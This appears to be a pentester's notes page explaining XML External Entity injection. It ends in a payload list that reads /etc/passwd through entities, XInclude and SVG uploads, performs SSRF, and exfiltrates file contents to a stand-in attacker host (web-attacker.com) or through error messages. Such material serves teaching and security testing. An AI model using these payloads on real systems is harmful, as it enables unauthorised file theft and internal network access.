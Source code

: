 # XML eXternal Entity injection
When XML parsers support potentially dangerous features, that allows an attacker to inject specific XML payloads that can compromise the server.

It arises when the submitted XML is not validated or defended properly. An attacker must:
- Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file (to read)
- Edit a data value in the XML that is returned to the applications response, to make use of the defined external entity

### XML
The eXtensible Markup Language is used for data storing and stuff. The Document Type Definition (DTD) contains declarations that define the structure of an XML document. The DTD is declared in the DOCTYPE element. Using the DTD, custom XML entities can be defined. For example:
```xml
<!DOCTYPE foo [ <!ENTITY myentity "my new value lol" > ]>
```
This now means that any refernce to `&myentity;` within the XML document will be replaced with the defined value.

External entities use the keyword `SYSTEM` and must specify a website with the `http(s)://` protocol, or a path to file with the `file://` protocol. See example [here](#read-file).

There are also XML parameter entities. These are defined with the `%` character before the name, and are referenced using `%myparameterentity;`. Parameter entities can only be used within the DTD:
```xml
<!DOCTYPE foo [ <!ENTITY % myparameterentity "my parameter entity value" > %myparameterentity; ]>
```

## Vulnerabilities & Attack Surfaces
Try reformatting request content to type `text/xml`, because sometimes this is allowed by the server. This can reveal more attack surfaces. Like this:
```xml
<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

### XInclude
It is not always possible to inject a new DOCTYPE element. Then you can always try to use XInclude which can be placed in any data value. [PoC](#xinclude--read-file)

Useful when you only control a single data field that is placed into a server-side XML document.

### File Upload
When you are allowed to upload files which are processed server-side. When it is possible to upload XML-based file formats like `.docx` and `.svg`, an attacker can upload malicious files with an XXE payload. [PoC](#svg--read-file)

### Blind XXE
When you don't get any data returned from the application, it might be hard to retrieve data, or to know if the attack worked. 
- Use OAST techniques to get info through an attacker controlled domain [PoC](#blind-xxe--read-file)
- Make use of error messages that include sensitive information [PoC](#blind-xxe--error)
- In internal DTD, it is (most likely) not allowed to use XML parameter entities with the definition of another. It is permitted in external DTDs, but not internal DTDs. This is when you can make use of common internal DTDs to still retrieve data [PoC](#blind-xxe--internal-dtd). XML is chill like that.

## Proof of Concepts

### Read File
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### XInclude | Read File
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### SVG | Read File
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### XXE -> SSRF
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

### Blind XXE | Read File
```xml
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
]>
```

### Blind XXE | Error
```xml
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
]>
```

### Blind XXE | Internal DTD
This for Linux systems using the GNOME desktop environment that often have a [DTD file](https://github.com/GNOME/yelp/blob/master/data/dtd/docbookx.dtd) at `/usr/share/yelp/dtd/docbookx.dtd`, which defines a parameter entity `ISOamsa`.
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

# Sources
- Main info (Portswigger): https://portswigger.net/web-security/xxe